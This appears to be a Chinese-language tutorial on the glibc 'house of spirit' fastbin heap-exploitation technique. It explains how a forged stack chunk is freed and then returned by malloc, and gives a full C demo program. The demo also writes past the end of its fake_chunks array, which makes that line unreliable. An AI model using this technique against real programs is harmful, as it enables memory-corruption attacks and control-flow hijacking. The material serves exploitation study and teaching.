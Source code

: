 ## house_of_spirit

   house_of_spirit是一种fastbins攻击方法，通过构造fake chunk，然后将其free掉，就可以在下一次malloc时返回fake chunk的地址，即任意我们可控的区域。House_of_spirit是一种通过堆的fast bin机制来辅助栈溢出的方法，一般的栈溢出漏洞的利用都希望能够覆盖函数的返回地址以控制EIP来劫持控制流，但如果栈溢出的长度无法覆盖返回地址，同时却可以覆盖栈上的一个即将被free的堆指针，此时可以将这个指针改写为栈上的地址并在相应位置构造一个fast bin块的元数据，接着在free操作时，这个栈上的堆块被放到fast bin中，下一次malloc对应的大小时，由于fast bin的先进后出机制，这个栈上的堆块被返回给用户，再次写入时就可能造成返回地址的改写。所以利用的第一步不是去控制一个 chunk，而是控制传给 free 函数的指针，将其指向一个fake chunk。所以 fake chunk的伪造是关键。

   源码如下。

 ```c
 #include <stdio.h>
 #include <stdlib.h>
 
 int main()
 {
     fprintf(stderr, "这个例子演示了 house of spirit 攻击\n");
 
     fprintf(stderr, "我们将构造一个 fake chunk 然后释放掉它，这样再次申请的时候就会申请到它\n");
     malloc(1);
 
     fprintf(stderr, "覆盖一个指向 fastbin 的指针\n");
     unsigned long long *a, *b;
     unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));
 
     fprintf(stderr, "这块区域 (长度为: %lu) 包含两个 chunk. 第一个在 %p 第二个在 %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[9]);
 
     fprintf(stderr, "构造 fake chunk 的 size，要比 chunk 大 0x10（因为 chunk 头），同时还要保证属于 fastbin，对于 fastbin 来说 prev_inuse 不会改变，但是其他两个位需要注意都要位 0\n");
     fake_chunks[1] = 0x40; // size
 
     fprintf(stderr, "next chunk 的大小也要注意，要大于 0x10 小于 av->system_mem（128kb）\n");
         // 这是fake_chunks[?]可以数一下
     fake_chunks[9] = 0x1234; // nextsize
     fake_chunks[2] = 0x4141414141414141LL;
     fake_chunks[10] = 0x4141414141414141LL;
 
     fprintf(stderr, "现在，我们拿伪造的那个 fake chunk 的地址进行 free, %p.\n", &fake_chunks[2]);
     a = &fake_chunks[2];
 
     fprintf(stderr, "free!\n");
     free(a);
 
     fprintf(stderr, "现在 malloc 的时候将会把 %p 给返回回来\n", &fake_chunks[2]);
     b = malloc(0x30);
     fprintf(stderr, "malloc(0x30): %p\n", b);
     b[0] = 0x4242424242424242LL;
     fprintf(stderr, "ok!\n");
     return 0;
 }
 ```
